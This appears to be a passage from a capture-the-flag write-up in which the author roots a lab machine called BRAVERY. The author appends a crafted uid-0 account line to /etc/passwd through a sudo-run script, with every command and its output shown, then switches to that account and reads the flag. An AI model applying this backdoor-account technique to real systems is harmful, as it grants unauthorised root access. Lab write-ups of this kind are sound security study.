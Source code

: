 Add a new user by concatinating new record to the `/etc/passwd` file
[READING Materials](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)
First we need to choose a password, salt it and hash the result. openssl to the rescue.
Flags:
* `-1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
* `-salt salt` string to use as salt. I choose the string salt
* `password` clear text password we would like to use. 

```console
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

We need to put the above string in a file. For that we need to find a directory we can write to. Easiest option is `/tmp`. I'll call my file `my_user`
Before writing the above hashed password we need to add some data in order for it to be aligned with the `/etc/passwd` format.
This is the final result:
```console
$ cat /tmp/my_user
`hful:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash`
```

I named the user `hful`.
Now we can execute the test script as sudo
`sudo ./test /tmp/my_user /etc/passwd`

Verify our new user was added
```console
$ cat /etc/passwd
...
hful:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

Copy the file back to the original location and overwrite the old one. Now switch to the new user and verify we're root.

```console
$ su hful
Password: 

$id
uid=0(root) gid=0(root) groups=0(root)
```

Find and print the flag

```
$ cd /root
$ ls
...
proof.txt
...
$ cat proof.txt
Congratulations on rooting BRAVERY. :)
```

# Summary
* This machine has sooo many potential rabbit-holes. We can use simple scripts such as the `find . -type f  -exec du -h {} + | sort -h` which will save us time going over empty files.

